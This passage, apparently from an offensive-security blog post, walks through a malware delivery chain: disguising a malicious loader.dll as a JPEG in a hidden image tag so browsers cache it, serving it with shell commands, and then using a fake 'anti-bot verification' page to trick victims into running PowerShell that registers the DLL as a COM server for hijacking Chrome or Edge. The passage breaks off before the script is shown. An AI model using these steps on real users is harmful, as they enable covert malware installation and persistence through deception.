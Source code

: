 #### 2. browser cache smuggling - smuggling loader.dll

making the victim's browser automatically download `loader.dll` to its cache folder is actually easy to implement, all we have 
to do is rename it from `loader.dll` to `loader.jpeg` and place it inside the `<img>` tag in the website's html code, doing so will
make the webserver change the `content-type` header of the dll from `application/octet-stream` to `image/jpeg` and by default broswers
cache files with `image/jpeg` content type header.		

using below html code, we can successfully smuggle our payload to the browser's cache folder

```html
<html>
        <body>
                <h1>Browser</h1>
                <img src="loader.jpeg" style="display: none;"></img>
        </body>
</html>
```
let's change the payloads's extension and request index.html page
```shell
deb@debian:/tmp$ mv loader.dll loader.jpeg
deb@debian:/tmp$ cat index.html 
<html>
        <body>
                <h1>Browser</h1>
                <img src="loader.jpeg" style="display: none;"></img>
        </body>
</html>
deb@debian:/tmp$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
{: .nolineno }
from the image below, we can see that the payload is successfully delivered to the victim's machine and stored as f_000007, 
opening this file in notepad we can see our dll identifier `startdll` we have added.

![Desktop View](13.png){: width="1441" height="601" }

#### 3. filefix - putting everything together.

at this point, we have the loader.dll delivered automatically to the victim's machine and we know where we need to put this dll 
to be loaded by chrome or edge browsers. 

in this final step of the chain, we have to trick the victim to execute the powershell command, and for this we will use the
`filefix` technique.

we will set up a fake `anti-bot verification` page that the user needs to complete before accessing the website. 

our objective is running the powershell script below, the script will loop through all the cached files starting with the prefix 
`f_` and locates the one that has our identifires `startdll` and `enddll`, once found it will extract it 
and rename it to `loader.dll` than it will create the necessary com class we identifiead earlier missing and finally set the 
loader.dll in InProcServer32 key
